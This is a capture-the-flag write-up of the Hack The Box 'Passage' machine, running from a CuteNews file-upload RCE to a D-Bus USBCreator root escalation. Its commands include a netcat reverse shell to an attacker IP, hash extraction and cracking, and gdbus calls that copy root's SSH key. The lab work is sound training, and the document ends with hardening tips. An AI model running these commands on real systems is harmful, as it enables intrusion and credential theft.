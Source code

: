 # 🛡️ HTB Writeup: Passage – From News to Root

<figure><img src="../.gitbook/assets/ChatGPT Image Jun 22, 2025, 11_16_36 PM.png" alt="" width="563"><figcaption></figcaption></figure>

### 🧠 TL;DR

We exploit a CuteNews RCE to get a foothold, crack a SHA-256 hash for lateral movement, and abuse a D-Bus service misconfiguration to escalate to root. All with a bit of `vim`, a sprinkle of `gdbus`, and some `ssh` sorcery.



### 🔍 Recon and Enumeration

#### 🔎 Port Scan

```bash
nmap -Pn -p- --min-rate=1000 -T4 10.10.10.206
```

Revealed:

* **Port 22** (SSH)
* **Port 80** (Apache)

#### 📰 Web App

Visiting `http://10.10.10.206` shows _Passage News_. We spot two users: `paul@passage.htb` and `nadav@passage.com`.

Digging deeper:\
&#xNAN;**/CuteNews** is live and running version **2.1.2** — vulnerable to **RCE (CVE-2019-11447)** via avatar upload.



### 🚪 Initial Foothold (www-data)

#### Exploit Link:

[ExploitDB #48800](https://www.exploit-db.com/exploits/48800)

#### Reverse Shell Payload:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.3 4444 >/tmp/f
```

🎯 Boom! We’re in as `www-data`..

### 🧬 Lateral Movement: www-data → paul

CuteNews stores user info in:

```bash
/var/www/html/CuteNews/cdata/users/
```

Let's decode:

```bash
grep -r -h "php" -v /var/www/html/CuteNews/cdata/users/ | base64 -d | sed "s/}}/}}\n/g" | grep "paul" | grep "s:64:"
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

```
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
```

🎉 Password = `atlanta1`

Switched user:

* Tried to ssh but ssh can only be done with public key

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
su paul
```

### 🔐 Lateral Movement: paul → nadav

Found shared keys: (paul → nadav)

`cat /home/paul/.ssh/authorized_keys`

<figure><img src="../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

🗝️ Copied private key and connected:

```bash
ssh -o PasswordAuthentication=no -i paul_rsa -o IdentitiesOnly=yes nadav@10.10.10.206
```

We’re now `nadav`!

### ⚙️ Privilege Escalation: nadav → root

#### 🔎 Key Find

Discovered interesting edit history in `.viminfo`:

<figure><img src="../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

* i did look at the walkthrough at this point, but just the point i had to Google for usb creator exploit
* got a link to this github [https://gist.github.com/noobpk/a4f0a029488f37939c4df6e20472501d](https://gist.github.com/noobpk/a4f0a029488f37939c4df6e20472501d)

```
#document: https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/
#detect 
remote-machine> ps auwx | grep usb

remote-machine> echo "attack-machine id_rsa.pub key" > ~/authorized_keys

remote-machine> gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/remote/authorized_keys /root/.ssh/authorized_keys true

attack-machine> ssh -i id_rsa root@10.10.10.10
```

The system is misconfigured: `unix-group:sudo` can now trigger **USBCreator** D-Bus methods.

#### 🔥 Exploit Time

Used this command to copy root’s SSH key:

```bash
gdbus call --system \
  --dest com.ubuntu.USBCreator \
  --object-path /com/ubuntu/USBCreator \
  --method com.ubuntu.USBCreator.Image \
  /root/.ssh/id_rsa /home/nadav/id_rsa true

```

Logged in as root:

```
ssh -o PasswordAuthentication=no -i nadav_rsa -o IdentitiesOnly=yes root@10.10.10.206
```

### 🔒 Security Takeaways

* Don’t store sensitive info (like password hashes) in world-readable files.
* Avoid SSH key reuse across users.
* Misconfiguring D-Bus services with lax polkit rules? That’s just asking for root compromise.
* Disables persistent Vim history **system-wide**, preventing:
  * Search history
  * Command history
  * Registers
  * File marks
* If you want to be extra ruthless:

```bash
touch ~/.viminfo
chattr +i ~/.viminfo 2>/dev/null
```

This:

1. Creates an empty `.viminfo` file.
2. Makes it immutable — Vim won't be able to write to it.

Want to apply it system-wide for all users? Loop it:

```bash
for user in /home/*; do
  su - $(basename "$user") -c 'touch ~/.viminfo && chattr +i ~/.viminfo'
done
```
